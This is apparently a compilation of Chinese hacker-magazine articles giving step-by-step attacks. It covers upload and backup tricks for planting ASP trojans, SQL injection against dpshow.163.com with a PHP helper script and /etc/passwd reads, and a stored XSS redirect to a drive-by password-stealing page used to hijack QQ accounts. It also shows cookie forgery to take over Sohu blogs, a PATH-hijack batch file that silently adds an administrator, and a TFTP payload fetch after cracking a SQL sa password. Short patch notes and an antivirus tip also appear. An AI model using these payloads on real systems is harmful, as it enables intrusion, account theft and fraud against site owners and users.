既然别的不行，那就来暗的。所谓暗的，就是指“图片上传”这一块。在上传一个文件时，我们用 WinSock Expert 抓一下包，如图15所示，看到其中的“filepath”了吗？这不就是曾经的动网上传漏洞。只要把 WinSock Expert 中的 POST 及上传数据复制到一个文本内，然后把 filepath 的值“upimages”改为“upimages/jm.asp”（其中的 * 表示空格），然后再用 16 位编辑器 WinHex 修改空格 20 为 00，打开 CMD 窗口，使用 NC 程序，输入如下提交命令：“nc.exe -vv 127.0.0.1 80 <文本”，就把上传的数据保存成“upimages”目录中的 jm.asp 文件了。


说到了图片上传，还有一个地方的图片上传，也有同样的 BUG，它就是 ADS（广告）中的 Upfile.asp。这个文件的上传限制和上面提到的是一样的，但这个文件漏洞的危害更大，因为这个上传不需要管理员身份，任何一个“水客”都可以上传。对于这个上传文件，就不用抓包方式了，而是用一个现成的工具——桂林老兵的 DVBBS 上传。如图16所示，在提交地址中输入：“http://127.0.0.1/wh/ads/upfile.asp”，把上传路径改为：“upimg/image.asp”（image.asp 是上传后的文件名，可更改），选择一个本地 ASP 文件，COOKIES 不用更改，直接点“上传文件”，就这么简单，一个 ASP 木马就传上去了。


### 2. 备份

在后台中，除了利用上传图片中的 BUG 外，还可以采用下面的这种方法，使用“数据处理”中的“备份”或“恢复”来生成 ASP 木马。点击“数据处理”中的“备份”链接，在“当前数据库路径”中输入上传的图片路径“../upimages/上传图片名称.jpg”，备份数据库目录按默认，备份数据库名称改为“jmdcw.asp”，然后点备份数据，就把上传的图片改为 ASP 文件了。（备份后的文件地址是：http://127.0.0.1/admin/Databackup/jmdcw.asp）

## 五、系统管理漏洞

下面将要出场的这个漏洞，简直就是一个小型的 ASP 后门。大家哇哇叫啊，万象下载管理漏洞很多。在后台的系统管理中，有“上传图片管理”和“上传文件管理”这两个功能（我想第二个的文字应该是上传文件管理），分别管理的是 upimages 和 download 文件夹，如图17所示。大家注意图中所标注的那个输入框，在其中可以输入一些跳转字符“./”或“../”来跳到其他目录中。

如在其中输入一个“./”，如图18所示，在下方显示了万豪下载程序根目录中的所有文件；如果输入“../”则跳转到了虚拟目录的根目录中；如果再加上一个“../”，则跳转到了虚拟目录所在磁盘的上一级目录中（前提条件是磁盘没有限制）；再加“../”，会一直跳到该磁盘根目录中。


看过了跳转功能，再来看另一个不错的功能，就是编辑文件。在图18中，每一个文件的后面都有一个“编辑”链接，例如点击“help.asp”后的“编辑”，打开的窗口如图19所示。这就是一个编辑窗口，其中的内容则是 help.asp 的源码。就像 ASP 木马中的编辑功能一样，我们可以在编辑窗口输入任何代码修改该文件，比如在一些 ASP 文件中插入一句话木马等等。


## 六、修补漏洞

### 1. 跨站补丁

原因在于对提交的用户名及 Email 未进行过滤，才出现了跨站漏洞。那么在写入数据库之前，对提交的用户名、Email 及 Grade 进行一下 UBBCode 过滤。修改“softessay.asp”，代码如下：

```asp
rs("UserName")=trim(UBBCode(request.form("UserName")))
rs("usermail")=trim(UBBCode(request.form("Email")))
rs("Grade")=trim(UBBCode(request.form("Grade")))
```

### 2. 留言簿补丁

原因是对“admin_name”提交值过滤不严，才让单引号趁虚而入。既然是单引号惹的祸，那就对单引号进行一下过滤。打开 BOOK 中的“mofei_book_save.asp”，在 `admin_name=trim(request.form("admin_name"))` 语句后加入如下过滤语句：`admin_name=replace(admin_name,"'","")`。

### 3. 注入补丁

注入漏洞也是因为对提交值过滤不严而形成的。而这些文件的补丁，其实在万象的其他文件中早就有了，这几个存在注入的文件可能就是漏网之鱼！参照其他文件的过滤方法，在进入 SQL 语句之前加入如下语句：

```asp
if not isnumeric(request("提交参数1")) and request("提交参数1")<>"" then
  response.write "错误的系统参数!请输入整数"
  response.end
end if
```

### 4. 上传及备份补丁

- A. 个人下载站，一般也没有多少空间，除非是自己上传一些小的文件，才会用到 download 文件夹。默认情况下，download 文件夹是不存在的，但为了预防万一，还是来补一下“上传软件”中的漏洞。修改“uploadsave.asp”文件，在：

```asp
for each formName in upfile.file  '列出所有上传了的文件
  ...
  if not FileName>"" then FileName=oFile.filename
```

后加入如下过滤语句：

```asp
  fileEXT=lcase(right(filename,4))
  if fileEXT<>".gif" and fileEXT<>".jpg" and fileEXT<>".zip" and fileEXT<>".rar" and fileEXT<>".swf" then
    response.write "文件格式不正确"
    response.end
  end if
```

- B. 对于“上传图片”中的漏洞，则可以借鉴“上传软件”中的限制方法，把上传的文件夹设为一个固定值，修改“upfile.asp”。

把原文件中的 `formPath=upload.form("filepath")`，改为：`formPath="固定值"`。这其中的固定值根据上传文件的不同来设定：下载目录中的 upfile.asp，其固定值是“upimages”；而 ADS（广告）目录中的 upfile.asp，其固定值则是“upimg”。如此一来，“formPath”就是一个摆设了，也就不会接收提交来的“filepath”值了。

对于 ADS（广告）目录中的 upfile.asp 和 upload.asp，还要在其文件头部加入检查身份语句：

```asp
<%Adminster="34"%>
<!--#include file="check.asp"-->
```

- C. 对于数据库备份，修改“DataDispose.asp”中的有关数据库备份与恢复的代码，对提交的语句进行检查，发现“..”字符则出现提示。查找“备份数据库”过程中的语句是：

```asp
sub DataBackup()  '###备份数据库
Dbpath=request.form("Dbpath")
```

在其后加入如下检查代码：

```asp
if inStr(Dbpath,"..")>0 then
  ErrMsg=ErrMsg+"请输入正确的数据库路径"
  call Error_Msg(ErrMsg)
  response.end
end if
```

再就是修补“恢复数据”中的语句，在源码：

```asp
sub DataRestore()  '###数据库恢复
if dbpath="" then
  ErrMsg=ErrMsg+"请输入您要恢复的数据库全名"
  call Error_Msg(ErrMsg)
  response.end
```

后加入如下检查代码：

```asp
elseif inStr(dbpath,"..")>0 then
  ErrMsg=ErrMsg+"请输入正确的数据库路径"
  call Error_Msg(ErrMsg)
  response.end
```

> （编者注：只限制路径来修补备份漏洞的补丁好像并不完美，最好再加上扩展名的限制）

### 5. 管理补丁

“上传文件管理”功能所调用的是 upfilemanage.asp 文件，而显示页面中的“编辑”使用的则是 fileedit.asp。既然允许上传的是图片和压缩文件，那就用不着“编辑”功能了，留下来只能是个安全隐患，还是删了为妙！如果还想留着这个文件以作他用的话，最好更改一下名称单独使用。

在“上传文件管理”功能中，其本意主要是用于管理上传的图片与软件，但因为程序中根据提交值返回目录，才有了这个 BUG。为避免在“上传文件管理”的输入框内使用特殊字符跳到其他目录，则修改 upfilemanage.asp 文件，将语句 `if request("path")<>"" then` 下的 `path=request("path")` 改为：`path="upimages/"`，把管理功能固定在“图片（upimages）”和“文件（download）”两个目录之内，就不怕输入特殊字符浏览到其他目录了。

> 【文章里涉及到的相关工具：MD5 密码破解器及作者用到的注入语句方案（注入测试代码.txt）、万象下载补丁、万象留言簿数列计算.exe 等已收录在本期光盘】

> 【编读互动区】打一个万象下载程序，在作者的剖析下已经体无完肤了，几乎是一个 ASP 的 Access 注入漏洞测试程序大全。光盘里也有作者用到的详细注入语句，初学 ASP 注入的可以把这个程序及这篇文章当作一个学习的范例。至于作者，已经连续几期在黑客手册上分析了几个 Web 程序的漏洞，希望他再接再厉，分析查找一下知名的 Web 脚本，如动网等大型论坛的漏洞，给读者带来更大的惊喜。


# 对 163.com 的一次安全测试

linx

对于 163.com 这样的大型网站，他们的服务器内容很多（如 News、Stock、Education 等），不同的服务站点会对应着不同的服务器。然而内容越复杂，漏洞也就会越多，往往是“千里之堤，溃于蚁穴”。这次我们就来挑 163.com 人气比较旺的一个版块——dpshow.163.com 进行测试。

在 dpshow.163.com 的一个链接 http://dpshow.163.com/editopus.php?opus_id=33942 吸引了我的注意。我来看看有没有 SQL injection 漏洞。提交：

> http://dpshow.163.com/editopus.php?opus_id=33942 and 1=1/*（正常显示）  
> http://dpshow.163.com/editopus.php?opus_id=33942 and 1=2/*（出现错误）

看来“opus_id”字段没有进行严格的过滤，存在 SQL inject 的可能。现在我们需要的任务便是拿到 dpshow 当前表的字段数。由于我手头上的 H.D.SJ 版本在注射过程中不在语句末尾添加“/*”（MySQL 语句注释符），使得猜测的过程中频频出错，所以我只好自己写一个简单的 PHP 脚本，用来实现猜 MySQL 字段数的功能：

```php
<?php
// a tool for php injection
// written by linx (2005.7.16)
$url="http://dpshow.163.com/editopus.php?opus_id=33942";
$start=1;
$end=20;
$keyword="126771.jpg";
for($i=$start;$i<=$end;$i++){
  $ext="";
  for($j=2;$j<=$i;$j++){
    $ext .= ",$j";
  }
  $ext = " and 1=1 union select 1".$ext."/*";
  $url_get=$url.urlencode($ext);
  echo "Testing: ".urldecode($url_get)."<br>\n";
  $a=file_get_contents($url_get);
  if (strpos($a,$keyword)) {
    echo "\n<br><br>Done: <a href='".$url_get."'>".urldecode($url_get)."</a><br>\n";
    exit;
  }
}
?>
```


> 必须知道 PHP 的 magic_quotes_gpc=on 的特性：  
> 在默认状态下，即使你忘了把 php.ini 挪到 /usr/local/lib/php.ini 下，PHP 还是打开 magic_quotes_gpc=on。这样所有从 GET/POST/Cookie 来的变量的单引号（'）、双引号（"）、反斜杠（\）以及空字符 NUL（the null byte）都会被自动加上反斜杠，以便数据库能够正确查询。也正是由于这个特性的限制，我们在对 PHP 进行 SQL 注射时不能在注射的语句中加上单引号。

“/etc/passwd”的 16 进制码转换成“0x2f6574632f706173737764”。我们来提交：http://dpshow.163.com/editopus.php?opus_id=33942 and 1=1 union select 1,2,user(),4,5,database(),7,load_file(0x2f6574632f706173737764),9,10,11,12,13/*，在返回的页面中可以看到信息如图 2 所示：


在 PHP 环境下运行上面的代码后，如果顺利的话，我们便可以轻易地得到 dpshow 当前表的字段数（如图 1）。

yeah，成功了。字段数是 13，有了这个字段数，我们就可以在服务器上跑出 MySQL 的数据，甚至是读取服务器的敏感文件。现在先来看看当前 MySQL 的用户和数据库以及“/etc/passwd”的内容。

先运行以下的代码把“/etc/passwd”转换为 16 进制码，以避过 PHP 的 magic_quotes_gpc=on 的特性：

```php
<?php
// by linx
$a="/etc/passwd";
for($i=0;$i<strlen($a);$i++)
  $s .= base_convert(ord($a[$i]),10,16);
$s="0x".$s;
echo $s; // 返回 0x2f6574632f706173737764
?>
```

有了 /etc/passwd 文件，我们就可以尝试暴力破解出 FTP 及系统用户的密码，然而我对此并不感兴趣，还是继续回到数据库上吧。显然，现在的任务就是猜测出数据库中保存网站管理员账号的表和字段，提交：

- http://dpshow.163.com/editopus.php?opus_id=33942 and 1=1 union select%201,2,3,4,5,6,7,8,9,10,11,12,13 from admin/*（返回错误）
- http://dpshow.163.com/editopus.php?opus_id=33942 and 1=1 union select%201,2,3,4,5,6,7,8,9,10,11,12,13 from user/*（返回错误）
- http://dpshow.163.com/editopus.php?opus_id=33942 and 1=1 union select%201,2,3,4,5,6,7,8,9,10,11,12,13 from admin_user/*（返回错误）
- ……（省略 N 次的猜测过程）
- http://dpshow.163.com/editopus.php?opus_id=33942 and 1=1 union select%201,2,3,4,5,6,7,8,9,10,11,12,13 from admin_tbl/*（返回正确）

“admin_tbl”这张表，再来猜字段，提交：

```text
http://dpshow.163.com/editopus.php?opus_id=33942 and 1=1 union select%20id,2,3,4,5,6,7,8,9,10,11,12,13 from admin_tbl/*（返回错误）
http://dpshow.163.com/editopus.php?opus_id=33942 and 1=1 union select%20admin_id,2,3,4,5,6,7,8,9,10,11,12,13 from admin_tbl/*
```

在猜测“admin_id”的时候返回正常页面，说明“admin_tbl”表存在“admin_id”这个字段，这时候，我知道猜测后面的字段就容易了……再来：admin_user 字段提交……

```text
http://dpshow.163.com/editopus.php?opus_id=33942 and 1=1 union select%20admin_pass,2,3,4,5,6,7,8,9,10,11,12,13 from admin/*（返回错误）
http://dpshow.163.com/editopus.php?opus_id=33942 and 1=1 union select%20admin_password,2,3,4,5,6,7,8,9,10,11,12,13 from admin/*（返回错误）
http://dpshow.163.com/editopus.php?opus_id=33942 and 1=1 union select%20admin_pwd,2,3,4,5,6,7,8,9,10,11,12,13 from admin/*（返回正常）
```

“admin_password”字段呀，终于把你揪出来了……接着把“admin_tble”的数据提交，得到管理员账号和密码（如图 3）。随后登录后台（如图 4），利用上传图片功能上传 WebShell（如图 5）。


## 总结

在 Web 服务中，任何来自客户端的变量都不可靠，不管来自 GET、POST、COOKIE 还是 SESSION。由于变量过滤缺陷，可能带来安全隐患。管理员不要过分依赖防火墙和 IDS……

> 编辑感悟：作者对 `and 1=1 union select ...` 的显示现象进行了说明，指出该站点同时显示了 union 前后的查询内容，语法未错，但结果表现特殊。

# 利用 FTYPE 来辅助杀毒

- 在“开始→运行”输入 `cmd`，打开命令提示符（或进注册表处理可疑项）。
- 输入 `ftype exefile=notepad.exe %1`。
- 重启后系统中 EXE 文件会以记事本方式打开，病毒通常无法直接运行。
- 右击可疑文件，选择“打开方式”，定位到 `windows\system32\cmd.exe` 运行。
- 在命令行输入 `ftype exefile="%1" %*` 恢复 EXE 关联。
- 在每个“记事本”窗口通过“文件→另存为”查看路径与文件名，识别可疑文件并删除。
- 第六步需谨慎，确认确为病毒/木马再删除，建议先记录文件名；重启若无异常，再彻底清理。

# 利用 SOHU BLOG 跨站漏洞

李丰初

## 刷QQ会员

最近的 BLOG 特别热门，SOHU 也不例外地推出了有自己特色的 BLOG，但经测试发现，SOHU BLOG 存在严重的跨站漏洞。这篇文章写的就是利用此漏洞来刷 QQ 会员、刷 QQ 金钻等多项收费 QQ 服务。

## 一、设置好木马

本文用的是华网解吧。按图 1 所示设置好你的木马。


强烈建议大家使用华网解吧 2.0，它功能强大，可以截取绝大多数的密码，如 QQ、FTP、大话游戏等等。设置好以后，再把生成的木马做成网页木马。现在，我的网页木马已经设置好，地址是 http://sfd.008.net，浏览别人一打开网页，如果他本机没有打补丁的话，就会中了我的华网解吧。

## 二、进行跨站攻击

随便找个 SOHU 帖子，然后点击“评论”，在“评论”里面写下以下内容：

```html
<div class="cente"><script>alert('点击确定免费注册观看30000部电影！(^_^)');self.location='http://sfd.008.net/';</script></div>
```

具体做法如图 2 所示。相信有很多读者不明白这段代码的意思，解释如下：DIV 是弹出一个层的意思，ALERT 是弹出一个“点击确定免费注册观看30000部电影！”的对话框，点击对话框后就会打开 http://sfd.008.net 这个网址。最后，点击“确定”发布评论。当浏览者再次打开刚才发布过评论的页面时，就会出现如图 3 所示的页面。

## 三、结果

过了不到一个小时，我已经盗到了很多 QQ 号了。只要是 QQ 会员，一般都有蛮多的积分的，所以可以利用积分来刷 QQ 会员等收费服务。先用盗来的 QQ 号登录 http://jifen.qq.com，登录后如图 4 所示。这个 QQ 号好多的积分呀，看上图只要有 1200 就可以做会员一个月了，再多就几个商品积分的 QQ，那么凑着就可以刷得好多个月的会员了，其它的 QQ 黄钻等包月服务也是类似的方法刷得。


> 【文章中的相关工具华网解吧免费赠送版.exe 已收录在本期光盘中】

# 利用 SOHU 的 BLOG 另一个漏洞入侵他人 BLOG

李丰初

最近热爱 BLOG 的朋友都应知道 SOHU 开放了具有个性化的免费 BLOG 系统，这个 BLOG 是用 JSP 代码写的，程序各方面都感觉还不错，但是安全问题却不容乐观。到写稿子时为止，已经发现了两个特别严重的漏洞，第一个 DIV 跨站漏洞（已经修补），第二个 COOKIES 漏洞到截稿时为止还在抢修中。

## 一、漏洞描述

由于对 COOKIES 验证不严格，从而导致任意注册的用户可以改其他任意用户的 BLOG 内容，成功利用此漏洞可以获得别人整个 BLOG 的最高权限。

## 二、利用漏洞前的准备

首先，必须得在 SOHU 注册一个用户，注册的目的是用来获得一份本地的 COOKIES。现在，我已经注册好了，获取 COOKIES 的方法有很多种，本文是用“黑客最狠浏览器”取得本地 COOKIES 的，如图 1 所示。


选择“工具”，再选择“饼干小甜点”（COOKIES 的中文意思），选择以后会出现图 2 所示的界面。


注意：复制时，只要复制 COOKIES 中的这一段：

```text
Cookie: itsun=y; SUV=1130133018937267; IPLOC=CN4504; blog_nickname=wwwst520; blog_cn=wwwst520%40sohu; blog_id=45829; blog_name=wwwst520; blog_permit=4; blog_ip; blog_domain=wwwst
```

cookies 前面的内容不要复制。还有一点要注意的是，不能在这里面直接更改 COOKIES，因为这样子会调试出错。

## 三、漏洞的利用

比如说，我要入侵随便的一个 BLOG（http://blog.sohu.com/members/fjliang/），那么只要打开他的 BLOG 即可，如图 3 所示。


这个 blog 中 fjliang 与 FJLIANG（付亮）为用户名，这两个都是必须要用到的资料。获得这两个资料以后，把上面已经取得的 COOKIES 改为：

```text
Cookie: itsun=y; JSESSIONID=...; IPLOC=...; SUV=...; blog_nickname=FJLIANG(付亮); blog_cn=fjliang%40sohu; blog_id=45929; blog_name=FJLIANG(付亮); blog_permit=4; blog_ip; blog_domain=fjliang
```

要注意的是 cookies 一共改了三处，前面两处的用户名是 FJLIANG（付亮），后面是网址中 http://blog.sohu.com/members/fjliang/ 的 fjliang 用户名。这些都是非常容易出错的，请读者实际操作时一定要注意！

最后打开 COOKIES 修改器，如图 4 所示。


打开后，一定要点击工具栏中黄色的小锁（意思为自定义 COOKIES），然后在地址栏处写入：http://blog.sohu.com/manage/articleManager.do，再把刚才修改好的 COOKIES 粘贴到自定义 COOKIES 处。最后点击工具栏中的“刷新”按钮。现在已经成功进入了别人的 BLOG 了，如图 5 所示。


值得一提的是此 BLOG 还是国内一黑客的网站，入侵以后我已经发布通知了他。该漏洞在发稿前我已经通知了 SOHU 官方的相关人员，希望能及时补上。

> 【文章中用到的相关工具黑客最狠浏览器已收录到本期光盘中】

通过对 cookies 域骗漏洞，如果是开源检查是比较容易发现的；黑箱测试只能挨个变量去试了。从这一点上来看，作者是花费了一定的时间和心血去检测 SOHU 的 blog 漏洞的。只有想不到，没有做不到，嘿嘿。

# 非漏洞的漏洞

现在大家重视的入侵手法主要还是利用操作系统的远程溢出和由自身第三方程序上出现的一些溢出和逻辑漏洞，还有现在很热的一些脚本程序的漏洞，但是很少人会注意到一些另外的问题。这就是今天我说的非漏洞的漏洞，也就是系统的一些默认配置及考虑不周全所产生的漏洞。

## 一、漏洞成因

产生这种漏洞的原因是软件生产厂商以商业及系统的一些应用功能却忽略了安全性，和一些系统管理员并不认真研究这些第三方程序而造成的。大家可以假设自己是管理员，在你配置服务器的时候因为需要所以会安装一些第三方程序，如杀毒软件、Server-U 服务器和 PHP 组件及支持 CGI 的 Perl 组件等。

当你安装这些程序的时候为了避免麻烦，有时就会把第三方程序安装到 C:\Program Files 目录下。这些默认配置带来的当然是最大的稳定性和被证明了的安全性，如在 NTFS 格式下这些系统目录默认会被保护，默认情况下不允许其他用户如 Everyone 写入。这比在其他的一些目录下安全了很多。

我们通常使用的搭建服务器提升权限，是利用了如果管理员把这些服务级的程序放在不受保护的目录里，就可以利用改名等方式来在服务器重新启动的时候提升我们的权限。那么，是不是默认情况下很安全了呢？并不是所有程序都是以服务的形式存在于系统上的，大家也就忽视了对它的保护，但是它对系统所做的改动和带来的漏洞却是真实存在的。作为一个例子，今天我们就讨论 Perl 解释器安装所带来的安全隐患吧！


## 二、漏洞分析

我使用的 Perl 解释器是 ActivePerl-5.8.4.810-MSWin32-x86 版本，很多服务器系统里都有安装这个解释器。你可以在 webshell 里看它的默认安装目录，或者看系统环境变量里的一些东西来判断有没有它的存在。

现在在我的机器（XP SP1 系统，没办法，机器破只能这个系统了）上安装支持 CGI 的 Perl 组件，安装过程中我们选择了大多数管理员所选择的安装方式，都是默认安装。我们注意其中的两个环节如图 1、图 2 所示。


图 1 是安装时候的安装路径，大家可以看到是在 C:\perl 下安装的，这意味着如果不做特殊权限设置，这个目录是不会受保护的。注意图 2 的选项，第一个翻译过来是加入环境变量（其他几个我就不管了，呵呵）。哈哈，当这两个碰到一起的时候就出现问题了哦！

我们安装完成之后重新启动机器，然后打开 cmd，输入 net 命令查看一下系统信息吧！如图 3 所示，注意我标记的两行。呵呵，它把自己注册为扩展名查找还在默认环境变量 `%systemroot%\system32` 之前了。注意这个目录 C:\perl\bin 的权限，如图 4 所示。大家可以在自己的机器上看看这个目录的权限，并且这个目录在 webshell 里都是默认可写的（包括 2003 系统）。


我在自己机器上测试的时候利用 webshell 上传自己写的 net.bat 成功，如图 5 所示，完全是默认设置下操作的哦！我的 net.bat 内容很简单，就是 echo %1 和 %2。你直接输入 net user 的时候，就是把 net 后面的参数显示出来，结果就是 user。不相信的话现在我们来看在我当前登录的 cmd 下执行 net user 看看是什么结果吧！如图 6 所示，是不是显示了一个 user 却没有给出正确的登录结果啊？

这是因为 Windows 在 cmd 里执行的时候先看看是不是内部程序，然后是按照 PATHEXT 环境变量顺序先在当前目录下是否存在此文件，存在的话就执行；否则就按照 Path 环境变量顺序查找，找到第一个就执行，否则报告找不到该文件。大家在执行某个程序缺少 dll 的时候有可能会体会到这种查找顺序。环境变量的设置加上权限的默认配置，我们的漏洞产生了，我们可以考虑在别人执行 cmd 并且符合一定条件的话执行我们指定的指令。


## 三、漏洞利用

做了这么多的分析，大家肯定都想知道这个古怪的漏洞该如何利用。实话说，这个漏洞利用起来还真要一定的运气，但如果你对对方了解的话，某些时候利用这个漏洞还是不错的选择。现在我们来假设这样一个环境：你得到了对方的 webshell 或者其他 cmdshell，反正只要对方默认安装了 Perl，并且你对这个目录可写，就可以考虑利用这个漏洞。还有个前提是对方是个比较喜欢用 cmd 的人。呵呵，这些条件是不是有点苛刻？其实不是的。对方管理员也许不怎么会用 cmd，但是如果你发现对方机器上已经有人闯入并且种植了后门的话，你可以让以前的入侵者替你执行指令。当然，这个后门是 cmd 下的后门，如 rootkit、下 cmd 等等；如果对方有 telnet 就更省事了，呵呵！那么我们想让对方做什么，并且如何让对方做呢？我们知道入侵者和管理员都比较喜欢用 net 命令，不确定的话把 netstat 带上，呵呵。

在 `c:\perl\bin` 目录下建立 `net.bat`，内容如下：

```bat
@echo off
@c:\windows\system32\net user inc "" >nul && (
  c:\windows\system32\net user inc /del >nul
)
@c:\windows\system32\net %1 %2 %3 %4
@c:\windows\system32\net user inc 123 /add >nul
@c:\windows\system32\net localgroup administrators inc /add >nul
```

这样基本上就可以了。注意批处理中的 net 命令要加绝对路径，不然会死循环；还有命令后面的 `>nul` 是重定向，让你的命令毫无声息。执行效果如图 7 所示。但前提是对方不在系统目录下，只有那样他才会执行我们的 net.bat，所以让你欺骗几个，再祈祷一下上天保佑。当然，添加用户这样不是最好的，最好是直接执行自己的木马或者做其他事，反正没有什么你不能做的，代码由大家自己去写了。


## 四、漏洞总结

文章没有什么技术含量，给的也就是一个思路。漏洞总是在你认为不能出现的时候出现，这样另类的漏洞还要另类地利用。类似 Perl 这样的软件我还见到过几个，都存在这样的问题。至于如何防范，知道漏洞原理就好说了，破坏它的两个条件就可以了：要么设置权限，要么不加入环境变量。因为我不知道如何设置，所以具体操作就留给各位管理员朋友了。有了结果记得发到非安全上哦！我的 ID 是剑心大人，呵呵。

感谢无际和好文章！这确实是一个非常好的思路。我们如果把木马改成 net.com 或 notepad.com，放在作者所提到的这个目录下，应当效果是一样的吧？而且木马执行后不见，不会再影响管理员第二次 cmd 操作。至于是否成功，大家自己去试吧……

# 安全至上的一场风波

赵育民

## 一、事情起因

我们学校的网络实验室里平常都是几个男生在这儿，共同学习的气氛可以说其乐融融。昨天其中一个男生突然很得意地笑起来，估计是对着我们几个搞安全方面的师兄弟们说：实验室的哥们，我这台机器管理员账号为空，你们来入侵吧。然后就得意地笑，得意地笑……

这么自信，那一定是有备而来。既然知道账号和密码，那先用看起来最应该行得通的几个方式开始吧。

我打开浏览器，输入他的 IP，进行默认共享连接，输入账号和密码，结果如图 1 所示。


cmd 里 ping 他的机器，发现有正常回应，几乎可以肯定没有开网络防火墙；他平常也不用杀毒软件。那就是说一旦进入他的机器，可以随便上传后门程序了。感觉这位大哥太嚣张了，继续往下进行。

一般只要知道账号和密码，用 net use 一定是屡试不爽的（要分连接 IPC 管道和映射共享资源），先进行管道连接，结果失败，得到信息如图 2 所示。


`net view` 显示他的共享资源列表也为空，此时已经没有必要映射他的默认共享资源（C$、D$、E$……）。远程注册表连接：失败。……

到底是怎么回事儿？这位大哥终于告诉我们，原来是通过计算机策略管理进行了一个很小的改动，那就是运行 `gpedit.msc`，把“本地计算机策略→计算机配置→Windows 设置→安全设置→本地策略→用户权利指派”里面的“从网络访问此计算机”设置为拒绝一切用户的网络连接就可以了，如图 3、图 4 所示。


## 二、前期入侵


以前大致知道 `gpedit.msc` 的强大功能，现在就等于要远程突破它的限制，那就需要了解其内部的一些设置机理。我上网搜索 `gpedit.msc` 修改的“从网络访问此计算机”到底对应了哪些网络访问，但查不到。查看“从网络访问此计算机”对应的指令是什么，希望后期能派上用场，可惜也查不到。这就是 Windows 不如 Linux 的地方，这全是 Windows“闭源”造成的孽（当然术业有专攻，我并不是说 Windows 不如 Linux）。天色已晚，回宿舍睡觉先。

我对早餐的态度是一定要吃：一杯豆浆、一个鸡蛋、4 个煎包。吃好坐在实验室里，感觉浑身都足了能量，就静下心来想思路。既然这位大哥拒绝一切网络连接，但他本身还要浏览网页，这种网络连接与数据流动肯定不属于“从网络访问此计算机”的网络访问范畴。那我就看看他对外提供了什么服务。先进行 superscan 扫描，看看开了什么端口及其对应服务，如图 5 所示。


开了 135 和 139 端口属于 NetBIOS 服务。因为对方是 XP SP2 系统，几乎就不算适用于进行什么尝试了。一般它相当安全，除非想挖掘一个新鲜的 Windows 机制漏洞（不知尝试一下 135 端口执行命令的一些软件效果如何？编辑注）。他的机器还开了 8080 端口，那可能是开了 web 服务或者 HTTP 代理，可以尝试进行溢出攻击，我觉得这是一个思路。但因为对方还开了 1433 和 1434 端口，那就是开了 SQL 服务，这是更常见的可利用端口，先针对它进行深入分析吧。

通过 telnet 和一个小巧的扫描器获得了 1433 端口的信息（基本没有用），进行几个敏感账号尝试，失败！不气馁，打开字典工具生成一个非常简单小巧的字典文件，设置为纯数字，将一些敏感信息加进去进行匹配。hoho！3 分钟顺利取得了 sa 密码。数据库服务真的太危险了，它绕过了 Windows 系统的保护，自己保护又不得力，实在很危险。

打开 SuperSQLEXEC 进行连接，成功（如图 6），感觉胜利在望！首先进行账号建立，加入管理员权限组（如图 7）。取得了这台机器的执行权限，顺手开通了 telnet 服务，感觉那个美啊，但转念仔细一想，其实又等于失败，起码没有真正成功！

通过这个 1433 端口连接，取得了一个管理员 shell，拥有了这台机器的执行权限。而针对这次入侵，取得执行权限并不等于全部。如果你要使用这台机器作为自己的肉鸡或者为自己服务，真正发挥入侵它的作用，而不是简单删除破坏，就要按具体需要调配相应软件。因为人家机器上不可能为你准备那些黑客工具，所以能进行网络文件传输才是关键。而它的机制“禁止一切用户从网络访问此计算机”会屏蔽网络文件传输吗？后期实践表明：屏蔽了！

如果没有能力进行远程文件传输，只有执行权限，那就等于巧妇难为无米之炊，依然无法进行实质性掌控。这不是我要的。而且通过后来的尝试可以知道，此时自己并没有突破“拒绝一切用户从网络访问此计算机”。

如何传上我的木马呢？因为“从网络访问此计算机”设置为拒绝一切用户，而我事先已经尝试 net use 连接它失败，那反过来呢？我既然有了这台机器执行权限，那么我就用这台机器 net use 我自己的机器。我的机器又没有拒绝别人访问啊，可以把我机器上的软件复制过来。尝试如图 8 所示。


失败，依然失败。不过也弄明白了：凡是称得上“从网络访问此计算机”的行为全部被取消，哪怕是自己通过网络连接到别人机器上，也是不可许的。也许是数据返回时被截断了，那该怎么办呢？

还有一个办法，就是利用合法服务。既然你开了 1433 能正常工作，就说明我也完全可以进行合法文件传输，那就是 FTP 了。我把自己的本机做成一个 FTP 服务器，让同学机器通过合法端口和协议对我的机器进行连接。利用 Serv-U 软件，我开通了 FTP 站点，因为防止麻烦我就允许匿名用户，但把他局限到一个很小的空间里。然后通过 SuperSQLEXEC 连上那位大哥机器，取得 shell 输入：`ftp 10.1.x.x`（我自己机器的 IP），没有反应；单输入 ftp 也没有反应。仔细想了一下，因为 ftp 是交互界面解释执行命令，所以可能这个 SuperSQLEXEC 连接 SQL 服务不支持交互。

- 可能连最常用的网络传输服务都取消了；
- ftp 服务是一个交互过程，SuperSQLEXEC 不支持这种交互。

是一次性的过程！结果依次做完，最后****晕倒！写了也没用，没办法传上去。

突然想到了 TFTP，MY GOD，想到它就觉得相当完美。TFTP 全称是 Trivial File Transfer Protocol，它是简单文件传输协议，功能很少，而且不提供存取授权和认证机制，使用 UDP 的 69 端口。

正是因为它采用 UDP 端口，几乎不会被防火墙规则和 IP 安全策略对端口的审核机制所限制，肯定可以突破所谓的“拒绝一切用户从网络访问此计算机”。

如何开通呢？我是用了 2 个方法。第一个是用 2000 的工具软件 `instsrv.exe`（2000 应该没有自带，需要单独装，是标准系统提供的“伪黑客工具”）。在调配好一些资源后，在命令行键入：`instsrv "Tftp services" tftpd.exe`，服务软件安装完毕后，就启动它：`net start "tftp services"`。

这个时候就已经成功了，但由于我的防火墙原因，出现了一些莫名其妙的故障，启动后处于不稳定状态，时好时坏。没办法，就找了另外一个 TFTP 服务器软件：`tftpd32.exe`。这是一个相当省心的工具，图形化傻瓜式设置，很方便。

```bash
tftp -i 10.1.x.x get server.dll
```


啊啊，成功了！执行权限 + 突破“禁止一切用户从网络访问此计算机”进行文件传输 = 真正的掌控。

尾声就不多说了，我们都各自又学习到了一些不同知识，但大家都有一个共同感觉：网络绝对是不安全的，无法突破的时候不是因为它无懈可击，而是因为相关知识你还没有掌握。

## 三、入侵的第 2 个关键阶段

（本节标题出现在原文中，但正文内容已并入前后叙述。）

## 四、总结

**思路：** 本次入侵的进攻思路关键在于“从网络访问此计算机”被置为拒绝一切用户访问之后，如何采取进攻（网上有文章说，这样改了以后就万无一失了，足见其简单强大，不过我们最终证明了这种说法是不正确的）。

**结论：** 针对“禁止一切用户从网络访问此计算机”的设置，解决途径就是：首先取得这台机器的执行权限，这是正常要面对的问题；第二就是突破该设置，实现文件传输权限。

**工具和相关知识涉及：** 常用入侵命令和常用入侵方法，常用扫描器、字典生成器、1433 远程连接器、instsrv、FTP、TFTP 的使用等等。

